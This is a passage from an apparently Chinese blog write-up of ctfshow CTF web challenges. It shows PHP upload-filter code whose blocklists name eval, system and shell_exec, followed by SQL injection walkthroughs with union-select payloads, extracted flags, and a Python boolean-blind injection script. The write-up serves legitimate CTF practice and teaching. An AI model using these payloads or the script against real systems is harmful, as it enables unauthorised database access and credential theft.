class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$str</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">check</span>(<span class="variable">$str</span>)===<span class="number">0</span>)&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&#x27;./upload/&#x27;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/eval|include|require|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|php|\\$|\?|\&lt;|\&gt;/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h3 id="upload-php-170"><a href="#upload-php-170" class="headerlink" title="upload.php - 170"></a>upload.php - 170</h3><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-30 00:11:17</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$str</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">check</span>(<span class="variable">$str</span>)===<span class="number">0</span>)&#123;</span><br><span class="line">                <span class="title function_ invoke__">move_uploaded_file</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>], <span class="string">&#x27;./upload/&#x27;</span>.<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|php|\\$|\?|\&lt;|\&gt;|\(|\)|\&#123;|\[|\&#125;|\]|\,|\%|\`|\~|\+/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>

<h1 id="SQL注入"><a href="#SQL注入" class="headerlink" title="SQL注入"></a>SQL注入</h1><h1 id="web171-限制回显"><a href="#web171-限制回显" class="headerlink" title="web171-限制回显"></a>web171-限制回显</h1><h2 id="原始信息-80"><a href="#原始信息-80" class="headerlink" title="原始信息"></a>原始信息</h2><p>题目提供了一个输入框框和查询语句，以及部分的表格回显：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="operator">/</span><span class="operator">/</span>拼接<span class="keyword">sql</span>语句查找指定ID用户</span><br><span class="line">$<span class="keyword">sql</span> <span class="operator">=</span> &quot;select username,password from user where username !=&#x27;flag&#x27; and id = &#x27;&quot;.$_GET[<span class="string">&#x27;id&#x27;</span>].&quot;&#x27; limit 1;&quot;;</span><br></pre></td></tr></table></figure>

<h2 id="解题-75"><a href="#解题-75" class="headerlink" title="解题"></a>解题</h2><p>原本疑惑为什么测半天没动静，实际上是单引号和单词间多了个空格……（冤）</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_"># </span><span class="language-bash">找列数</span></span><br><span class="line">get: 1&#x27;order by 3 -- -</span><br><span class="line">return: 正确信息</span><br><span class="line">get: 1&#x27;order by 4 -- -</span><br><span class="line">return: 接口错误</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">证明是三列</span></span><br><span class="line"><span class="meta prompt_"></span></span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">堆叠查询数据库相关信息</span></span><br><span class="line">get: 1&#x27;union select 2,database(),3 -- -</span><br><span class="line">return: ctfshow_web</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查其它库</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(schema_name)),4 from information_schema.schemata-- -</span><br><span class="line">return: information_schema,test,mysql,performance_schema,ctfshow_web</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查表</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(table_name)),4 from information_schema.tables where table_schema=&#x27;ctfshow_web&#x27;-- -</span><br><span class="line">return: ctfshow_user</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(column_name)),4 from information_schema.columns where table_name=&#x27;ctfshow_user&#x27;-- -</span><br><span class="line">return: id,username,password</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段对应的内容</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(username)),4 from ctfshow_user-- -</span><br><span class="line">return: admin,user1,user2,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,userAUTO,flag</span><br><span class="line">get: 1&#x27;union select 2,(group_concat(password)),4 from ctfshow_user-- -</span><br><span class="line">return: admin,111,222,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,ctfshow&#123;a53003e4-a479-47e2-b618-b24d4eabffb8&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web172"><a href="#web172" class="headerlink" title="web172"></a>web172</h1><h2 id="原始信息-81"><a href="#原始信息-81" class="headerlink" title="原始信息"></a>原始信息</h2><p>访问select模块下的无过滤注入1</p>
<h2 id="解题-76"><a href="#解题-76" class="headerlink" title="解题"></a>解题</h2><p>和上面相比，多了一个表格</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查表</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(table_name)),4 from information_schema.tables where table_schema=&#x27;ctfshow_web&#x27;-- -</span><br><span class="line">return: ctfshow_user,ctfshow_user2</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(column_name)),4 from information_schema.columns where table_name=&#x27;ctfshow_user2&#x27;-- -</span><br><span class="line">return: id,username,password</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段对应的内容</span></span><br><span class="line">get: 1&#x27;union select 2,(group_concat(password)),4 from ctfshow_user2-- -</span><br><span class="line">return: </span><br><span class="line">admin,111,222,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,ctfshow&#123;5710fe38-1d3b-4322-b56e-d34148ed8530&#125;</span><br></pre></td></tr></table></figure>

<h2 id="总结-1"><a href="#总结-1" class="headerlink" title="总结"></a>总结</h2><p>在输出字符串被限制回显的时候 <code>(例如限制&#39;flag&#39;这个字符串)</code> 可以采用编码为base64的方式进行绕过。</p>
<p>反过来思考，就是： <strong>当明文数据无法直接输出的时候，可以考虑加密为密文再输出出来解密拿到明文</strong> .之前做PHP审计也遇到过。</p>
<h1 id="web173"><a href="#web173" class="headerlink" title="web173"></a>web173</h1><h2 id="原始信息-82"><a href="#原始信息-82" class="headerlink" title="原始信息"></a>原始信息</h2><p>暂时省略，后面补上</p>
<h2 id="解题-77"><a href="#解题-77" class="headerlink" title="解题"></a>解题</h2><p>暂时省略，后面补上</p>
<h1 id="web174"><a href="#web174" class="headerlink" title="web174"></a>web174</h1><h2 id="原始信息-83"><a href="#原始信息-83" class="headerlink" title="原始信息"></a>原始信息</h2><p>因为之前解题并未注意其中细节，这次检测出了布尔注入后，就一直在尝试爆出值。</p>
<h2 id="解题-78"><a href="#解题-78" class="headerlink" title="解题"></a>解题</h2><p>前面有限制条件，经过测试，限制的是传入的参数的。</p>
<p>没猜错的话，应该是不能直接反弹出flag的，所以说要拿下flag还得动用一点别的办法。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//检查结果是否有flag</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/flag|[0-9]/i&#x27;</span>, <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>)))&#123;</span><br><span class="line">	<span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;查询成功&#x27;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<p>按部就班开始解题：</p>
<ol>
<li>这个是堆叠注入的解法：</li>
</ol>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line"><span class="meta prompt_"># </span><span class="language-bash">找列数</span></span><br><span class="line">get: 1&#x27;order by 2-- -</span><br><span class="line">return: 正确信息</span><br><span class="line">get: 1&#x27;order by 1-- -</span><br><span class="line">return: 接口错误</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">证明是2列</span></span><br><span class="line"><span class="meta prompt_"></span></span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">堆叠查询数据库相关信息</span></span><br><span class="line">get: 1&#x27;union select database(),&#x27;a&#x27;-- -</span><br><span class="line">return: ctfshow_web</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查其它库</span></span><br><span class="line">get: -1&#x27;union select (group_concat(schema_name)),&#x27;a&#x27; from information_schema.schemata-- -</span><br><span class="line">return: information_schema,test,mysql,performance_schema,ctfshow_web</span><br><span class="line"><span class="meta prompt_"></span></span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查表</span></span><br><span class="line">get: -1&#x27;union select &#x27;a&#x27;,substring(group_concat(table_name),1,12) from information_schema.tables where table_schema=database()-- -</span><br><span class="line">return: ctfshow_user</span><br><span class="line"><span class="meta prompt_"></span></span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段</span></span><br><span class="line">get: -1&#x27;union select &#x27;a&#x27;,group_concat(column_name) from information_schema.columns where table_name like &#x27;%ctf%&#x27;-- -</span><br><span class="line">return: id,username,password</span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">查字段对应的内容</span></span><br><span class="line">get: 1&#x27;union select &#x27;a&#x27;,(group_concat(id)) from ctfshow_user-- -</span><br><span class="line">return: </span><br><span class="line"><span class="meta prompt_"># </span><span class="language-bash">无法直接明文测试出来，因为回显的数据包含了数字，上面规则有写</span></span><br><span class="line"><span class="meta prompt_">#</span><span class="language-bash">可以考虑各种编码绕过</span></span><br></pre></td></tr></table></figure>

<p>于是开始考虑新的办法，写一个脚本进行布尔爆破去解决这个问题。</p>
<p>而布尔爆破我是从头做到尾的：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,time,urllib</span><br><span class="line"></span><br><span class="line">dictStr = <span class="string">&#x27;,abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`-&#123;&#125;_~0123456789|$!&quot;#%&amp;\&#x27;()*+./:;&lt;=&gt;?@[\\]^ &#x27;</span></span><br><span class="line">dictStr2 = <span class="string">&#x27;&#123;&#125;-abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789&#x27;</span></span><br><span class="line">dictStr3 = <span class="string">&#x27;abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ$#&#x27;</span> <span class="comment"># 数据库名字限制</span></span><br><span class="line">dictStr4 = <span class="string">&#x27;,abcdefghijklmnopqrstuvwxyz0123456789_&#x27;</span> <span class="comment"># 数据表名字限制</span></span><br><span class="line">dictStr5 = <span class="string">&#x27;-abcdefghijklmnopqrstuvwxyz0123456789&#123;&#125;&#x27;</span></span><br><span class="line">dictStr6 = <span class="string">&#x27;`-&#123;&#125;_~0123456789|$!&quot;#%&amp;\&#x27;()*+./:;&lt;=&gt;?@[\\]^-&#123;&#125;abcdefghijklmnopqrstuvwxyz0123456789&#x27;</span></span><br><span class="line">dictStr7 = <span class="string">&#x27;,1234567890&#x27;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">getUrl</span>(<span class="params">req,url,data</span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    req: 获取session数据开始</span></span><br><span class="line"><span class="string">    url: 获取模板url</span></span><br><span class="line"><span class="string">    data: 获取注入语句</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    headers = &#123;</span><br><span class="line">        <span class="string">&#x27;User-Agent&#x27;</span>: <span class="string">&#x27;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Accept&#x27;</span>: <span class="string">&#x27;text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Accept-Encoding&#x27;</span>: <span class="string">&#x27;gzip, deflate, br&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Accept-Language&#x27;</span>: <span class="string">&#x27;zh-CN,zh;q=0.9&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Connection&#x27;</span>: <span class="string">&#x27;keep-alive&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Upgrade-Insecure-Requests&#x27;</span>: <span class="string">&#x27;1&#x27;</span>,</span><br><span class="line">    &#125;</span><br><span class="line">    urls = url.<span class="built_in">format</span>(data)</span><br><span class="line">    <span class="comment"># print(&quot;被访问的URL：&quot;,urls)</span></span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&quot;被访问的内容：&quot;</span>,data)</span><br><span class="line">    <span class="comment"># 获取返回数据并且转换为中文</span></span><br><span class="line">    r = req.get(url=urls,headers=headers).content.decode(<span class="string">&#x27;unicode_escape&#x27;</span>)</span><br><span class="line"></span><br><span class="line">    content = <span class="string">&#x27;&#x27;</span></span><br><span class="line">    <span class="keyword">if</span> r.strip() == <span class="string">&quot;&quot;</span>:</span><br><span class="line">        <span class="comment"># 如果没有内容就重新发10次包</span></span><br><span class="line">        <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">30</span>):</span><br><span class="line">            rContent = req.get(url=urls, headers=headers).content.decode(<span class="string">&#x27;unicode_escape&#x27;</span>)</span><br><span class="line">            <span class="keyword">if</span> rContent.strip()!= <span class="string">&quot;&quot;</span>:</span><br><span class="line">                content = rContent</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">else</span>:</span><br><span class="line">        content = r</span><br><span class="line">    <span class="keyword">return</span> content</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">getDatabase</span>(<span class="params">req,url</span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    获取数据库的库名</span></span><br><span class="line"><span class="string">    初始注入语句：1&#x27; and if(substring(database(),1,1)=&#x27;c&#x27;,1,0)-- -</span></span><br><span class="line"><span class="string">    ctfshow_web</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    获取数据库的表名</span></span><br><span class="line"><span class="string">    if(substring((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)=&#x27;#&#x27;,1,0)-- -</span></span><br><span class="line"><span class="string">    1&#x27;and if(substring((select concat(table_name) from information_schema.tables where table_schema=&#x27;ctfshow_web&#x27;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    查出表：ctfshow_user4</span></span><br><span class="line"><span class="string">    查出字段：id,username,password</span></span><br><span class="line"><span class="string">    查内容</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    <span class="keyword">def</span> <span class="title function_">miniContentSql</span>(<span class="params">includeSql,flag=<span class="number">1</span>,dictStrs=dictStr,showStr=<span class="string">&#x27;&#x27;</span>,req=req</span>):</span><br><span class="line">        <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">        获取flag的小处理函数</span></span><br><span class="line"><span class="string">        &quot;&quot;&quot;</span></span><br><span class="line">        s = showStr</span><br><span class="line">        <span class="keyword">for</span> item <span class="keyword">in</span> <span class="built_in">range</span>(flag,<span class="number">10000</span>):</span><br><span class="line">            t = <span class="number">0</span></span><br><span class="line">            <span class="keyword">for</span> string <span class="keyword">in</span> dictStrs:</span><br><span class="line">                t += <span class="number">1</span></span><br><span class="line">                data = includeSql.<span class="built_in">format</span>(item,string)</span><br><span class="line">                content = getUrl(req,url,data)</span><br><span class="line">                <span class="keyword">if</span> <span class="string">&#x27;查询成功&#x27;</span> <span class="keyword">in</span> content:</span><br><span class="line">                    s += string</span><br><span class="line">                    <span class="keyword">break</span></span><br><span class="line">            <span class="keyword">if</span> t == <span class="built_in">len</span>(dictStrs):</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">            <span class="built_in">print</span>(s)</span><br><span class="line">        <span class="keyword">return</span> s</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 获取数据库库名</span></span><br><span class="line">    <span class="comment">#-- 根据查询的get语句编写的查询规则（可以灵活选择）</span></span><br><span class="line">    includeSql1 = <span class="string">&quot;1&#x27; and if(substring(database(),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -&quot;</span></span><br><span class="line">    <span class="comment">#-- 查字符串的起始位置（可以灵活选择，如果知道了某些字符串的内容可以控制这个和拼接字符串进行跳过，省点时间）</span></span><br><span class="line">    flag1=<span class="number">8</span></span><br><span class="line">    <span class="comment">#-- 被拼接的字符串（可以灵活选择）</span></span><br><span class="line">    showStr1 = <span class="string">&#x27;The database name: ctfshow&#x27;</span></span><br><span class="line">    <span class="comment">#-- 查询用的ascii字符串（可以灵活选择）</span></span><br><span class="line">    dictStrIn1 = dictStr3</span><br><span class="line"></span><br><span class="line">    <span class="comment">#-- 调用的函数，，将规则句柄等导入，获取结果（当前函数已经注释）</span></span><br><span class="line">    <span class="comment"># s1 = miniContentSql(includeSql1,flag1,dictStrIn1,showStr1,req)</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># 获取数据库的表名</span></span><br><span class="line">    </span><br><span class="line">    includeSql2 = <span class="string">&quot;1&#x27;and if(substring((select concat(table_name) from information_schema.tables where table_schema=&#x27;ctfshow_web&#x27;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -&quot;</span></span><br><span class="line">    showStr2 = <span class="string">&#x27;The table name: &#x27;</span></span><br><span class="line">    dictStrIn2 = dictStr4</span><br><span class="line">    flag2 =<span class="number">1</span></span><br><span class="line">    <span class="comment"># s2 = miniContentSql(includeSql2,flag2,dictStrIn2,showStr2,req)</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># 获取数据库的表字段</span></span><br><span class="line">    includeSql3 = <span class="string">&quot;1&#x27;and if(substring((select GROUP_CONCAT(column_name) from information_schema.columns where table_name=&#x27;ctfshow_user4&#x27;),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -&quot;</span></span><br><span class="line">    showStr3 = <span class="string">&#x27;The columns name: &#x27;</span></span><br><span class="line">    <span class="comment"># s3 = miniContentSql(includeSql3, flag2, dictStrIn2, showStr3, req)</span></span><br><span class="line"></span><br><span class="line">    <span class="comment"># 获取指定字段内容</span></span><br><span class="line">    <span class="comment"># includeSql4 = &quot;1&#x27;and if(substring((select id from ctfshow_web.ctfshow_user4 limit 25,1),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -&quot;</span></span><br><span class="line">    includeSql4 = <span class="string">&quot;1&#x27;and if(substring((select password from ctfshow_web.ctfshow_user4 limit 24,1),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0)-- -&quot;</span></span><br><span class="line">    <span class="comment"># showStr4 = &#x27;The value: ctfshow&#123;c62ca052-9d1f-477d-acd4-c37a4098d9ec&#125;&#x27; --&gt; 这个是半手工一点一点测出来的，使用BP强制爆破cai&#x27;jie</span></span><br><span class="line">    showStr4 = <span class="string">&#x27;The id: &#x27;</span></span><br><span class="line">    dictStrIn4 = dictStr7</span><br><span class="line">    flag4 = <span class="number">1</span></span><br><span class="line">    s4 = miniContentSql(includeSql4, flag4,  dictStrIn4, showStr4, req)</span><br><span class="line"></span><br><span class="line">    s = s4</span><br><span class="line">    <span class="keyword">return</span> s</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&#x27;__main__&#x27;</span>:</span><br><span class="line">    url = <span class="string">&quot;http://xxxxxxxx-xxxx-xxxx-xxxx-faa4b01ffb1d.challenge.ctf.show/api/v4.php?id=&#123;&#125;&amp;page=1&amp;limit=10&quot;</span></span><br><span class="line">    req = requests.session()</span><br><span class="line">    <span class="built_in">print</span>(getDatabase(req,url))</span><br><span class="line">    <span class="comment">#脚本测试内容的东西，就相当于把get输入测试变成了黑窗测试</span></span><br><span class="line">    <span class="keyword">while</span> <span class="literal">True</span>:</span><br><span class="line">        </span><br><span class="line">        <span class="built_in">print</span>(<span class="string">&quot;-=&quot;</span>*<span class="number">12</span>)</span><br><span class="line">        data = <span class="built_in">input</span>(<span class="string">&quot;请输入测试内容：&quot;</span>)</span><br><span class="line">        <span class="keyword">if</span> data == <span class="string">&quot;exit&quot;</span>:</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        content = getUrl(req,url,data)</span><br><span class="line">        <span class="built_in">print</span>(content)</span><br></pre></td></tr></table></figure>

<p>因为效率原因，也因为各种各样的限制脚本的原因，脚本跑起来并不顺畅。</p>
<p>换言之，他们要你手工注入，不让你脚本跑起来。</p>
<p>但我是半手工，自己编写规则去过滤。</p>
<p>虽然限制颇多，但勉强还是过了。</p>
<h2 id="总结-2"><a href="#总结-2" class="headerlink" title="总结"></a>总结</h2><p>布尔盲注，限制输出。</p>
<h1 id="web175"><a href="#web175" class="headerlink" title="web175"></a>web175</h1><h2 id="原始信息-84"><a href="#原始信息-84" class="headerlink" title="原始信息"></a>原始信息</h2><p>首先是信息和上面差不多：</p>
<p>查询语句：</p>
<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="line">//拼接sql语句查找指定ID用户</span><br><span class="line">$sql = &quot;select username,password from ctfshow_user5 where username !=&#x27;flag&#x27; and id = &#x27;&quot;.$_GET[&#x27;id&#x27;].&quot;&#x27; limit 1;&quot;;</span><br></pre></td></tr></table></figure>

<p>返回逻辑：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[\x00-\x7f]/i&#x27;</span>, <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>)))&#123;</span><br><span class="line">      <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;查询成功&#x27;</span>;</span><br><span class="line">    &#125;</span><br></pre></td></tr></table></figure>

<p>很可能把关键字符换掉了，这次只能想办法进行盲注了。</p>
<p>不过因为回显的字符被篡改，这次，应该是时间盲注了。</p>
<p>根据观察，上面的语句会对 <code>ascii</code> 字符串进行操作，且从观察看 <code>ascii</code> 字符串完全展示不出来，只有 <code>查询失败</code> 能展示出来。</p>
